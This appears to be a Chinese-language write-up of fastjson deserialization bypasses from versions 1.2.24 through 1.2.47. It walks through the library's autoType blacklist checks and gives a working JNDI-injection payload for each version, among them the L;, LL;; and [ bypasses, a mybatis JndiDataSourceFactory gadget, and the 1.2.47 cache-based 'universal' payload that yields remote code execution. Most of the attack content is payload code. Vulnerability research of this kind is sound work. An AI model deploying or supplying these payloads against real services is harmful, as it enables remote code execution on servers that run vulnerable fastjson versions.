



## fastjson <=1.2.24

直接进入`loadClass`方法



看`loadClass`方法，加载我们传入的类，然后返回一个Class实例


## fastjson 1.2.25-1.2.41

加了一个`checkAutoType`方法来检测


如果`autoTypeSupport`为`true`，先检测白名单，如果中了的话，直接通过

再过黑名单，如果中了的话，直接抛出异常


如果`autoTypeSupport`为`false`，先检测黑名单，如果中了的话，直接抛出异常

再过白名单，如果中了的话，直接过


白名单默认为空


黑名单：


我们需要`com.sun.rowset.JdbcRowSetImpl`来进行JNDI注入，再黑名单中

绕过：



直接在类名前后加上`L`和`;`

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonString="{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"rmi://127.0.0.1:1099/hack\",\"autoCommit\":true}";
        JSON.parse(jsonString);
```

限制：`AutoTypeSupport`需要开启

```
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

## fastjson 1.2.42

https://github.com/LeadroyaL/fastjson-blacklist（收集了fastjson的hash值）

使用了hash值，过滤了前后的`L`和`;`

```java
long BASIC = -3750763034362895579L;
long PRIME = 1099511628211L;
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
    className = className.substring(1, className.length() - 1);
}
```

`autoTypeSupport`为`true`



`autoTypeSupport`为`false`


黑名单用了hash值来表示

我们利用双写来绕过

payload：

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonString="{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"dataSourceName\":\"rmi://127.0.0.1:1099/hack\",\"autoCommit\":true}";
        JSON.parse(jsonString);
```

限制：`AutoTypeSupport`需要开启

```
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

## fastjson 1.2.43

更新的内容，添加了两个判断，**如果类名首尾是`L;`、并且两个LL开头就直接抛出异常**

```java
 long BASIC = -3750763034362895579L;
            long PRIME = 1099511628211L;
            if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
                if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
                    throw new JSONException("autoType is not support. " + typeName);
                }

                className = className.substring(1, className.length() - 1);
            }

```

还可以使用这个`[`符号


根据报错信息，直接构造payload


```java
 ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonString="{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\"dataSourceName\":\"rmi://127.0.0.1:1099/hack\",\"autoCommit\":true}";
        JSON.parse(jsonString);
```

限制：`AutoTypeSupport`需要开启

```
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

## fastjson 1.2.45

1.2.44开始就直接把上述两种绕过过滤了，只要`[`开头就会抛出异常

既然符号绕过不行，我们找黑名单外的类名


### mybatis3 <=3.4.6 

```xml
<dependency>
            <groupId>org.mybatis</groupId>
            <artifactId>mybatis</artifactId>
            <version>3.4.6</version>
        </dependency>
```

在`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`类中

`setProperties`可以触发JNDI注入，


payload

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonString="{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"properties\":{\"data_source\":\"rmi://127.0.0.1:1099/hack\"}}";
        JSON.parse(jsonString);
```

限制：还是需要`AutoTypeSupport`开启

## fastjson 1.2.47

mybatis在1.2.46直接被过滤了，上面的方法都不行

通杀payload

```java
{
	{
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	{
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "rmi://127.0.0.1:1099/hacked",
		"autoCommit": true
	}
}

```

payload分析：

1.开启了autoTypeSupport和关闭autoTypeSupport，因为白名单默认为空，而且在黑名单也找不到Class类，也会最终进入findClass


进入findClass方法


IdentifyHashMap存了很多基础类，匹配到直接返回


返回了`java.lang.Class`

进入`deserializer.deserialze`


`objVal=strVal`都是com.sun.rowset.JdbcRowSetImpl


进入`loadClass`方法

默认缓存`cache`开启，首先去缓存中查找，第一次加载肯定找不到，就进入else，在里面**完成了类加载并且写入了缓存，根本不会经过黑名单验证**


payload中的第二部分进行parse的时候


就可以成功返回`com.sun.rowset.JdbcRowSetImpl`的class实例


从而实现一个RCE。


关闭`autoTypeSupport`直接在缓存中获取类的class实例，达到RCE

